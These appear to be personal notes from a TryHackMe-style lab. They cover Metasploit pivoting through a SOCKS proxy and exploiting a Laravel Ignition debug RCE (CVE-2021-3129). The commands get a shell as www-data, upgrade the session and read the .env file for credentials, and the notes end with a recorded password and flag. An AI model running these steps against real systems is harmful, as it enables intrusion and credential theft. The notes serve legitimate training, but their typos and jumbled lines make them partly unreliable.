 ```
-- pivot
route [add/remove] subnet netmask [comm/sid]
route add 172.17.0.1/32 -1

route print

--- socks proxy
use auxiliary/server/socks_proxy
run srvhost= 127.0.0.1 srvport= 9050 version= 4a

curl --proxy socks4a://localhost:9050 http:MACHINE_IP

proxychains -q nmap -n -sT -Pn -p 22,80,5432 MACHINE_IP

```

Challenge
`nmap -T4 -A -Pn 10.10.104.73 `

port 22 ssh OpenSSH open
supposed to have port 80 open

`http://10.10.104.73:80 ` inspect > network > cookie `lavarvel_session` cookie

```
msfconsole

search laravel  # returns 2 options

use exploit/multi/php/ignition_laravel_debug_rce

set RGOST 10.10.126.2 lhost= 10.10.55.166 HttpClientTimeout=20

run 

whoami  # returns www-data
background  > y
sessions   shows our shell cmd/unix

sessions -u -1
sessions
sessions -i -1

cat /var/www/.env   returns sensitive info
resolve webservice_database

----------
cve 2021-3129
sessions -u -1
/.dockerenv
.env
users
P4$$w0rd
22,80
THM{47C61A0FA873BA77308A8A600F88E4B}


```
